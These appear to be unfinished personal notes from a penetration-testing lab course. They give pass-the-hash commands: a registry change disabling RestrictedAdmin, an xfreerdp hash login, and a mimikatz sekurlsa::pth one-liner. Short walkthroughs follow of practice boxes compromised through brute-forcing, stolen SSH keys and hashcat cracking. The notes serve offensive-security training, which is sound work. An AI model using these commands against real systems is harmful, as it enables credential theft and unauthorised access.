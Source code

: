 Need to allow it with reister first

```cmd-session
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Now connect

```shell-session
xfreerdp  /v:10.129.38.61 /u:Administrator /pth:30B3783CE2ABF1AF70F77D0660CF3453
```

```
mimikatz.exe privilege::debug "sekurlsa::pth /user:david /rc4:c39f2beb3d2ec06a62cb887fb391dee0 /domain:. /run:cmd.exe" exit
```





COME BACK AND FINISH THE PTH STUFF!!!!!!!!!!!!!!!!!!!





# Assesment

## Easy

Nmap scan shows ssh on port 22 and ftp on port 2

First lets try bruteforce the ftp login. And we get credentials for mike.

Lets login and look around the ftp share. We find ssh keys. We use them to login and find the root password in .bash\_history. Easy!

## Medium

There is ssh on port 22 and a samba share. Running crackmap we find creds for john. john:123456

In there we find a password protected zip file which we can crack with hashcat and a mutated wordlist. Inside we find a word document that we need to crack again!. Once we do that we get setup instructions and the root password.

Ssh and we find mysql login details. In there we find a bunch of paswords. We are able to get dennises password.  After we login we see ssh keys lets move them to our machine and try use them. We need a password! Back to john

And we get the passoword with hashcat almost imediately.

We can now login as root and get the flag!

## Hard

Nmap shows us a lot.

Starting off we brute force smb with the username johanna and mutated passowrd list.
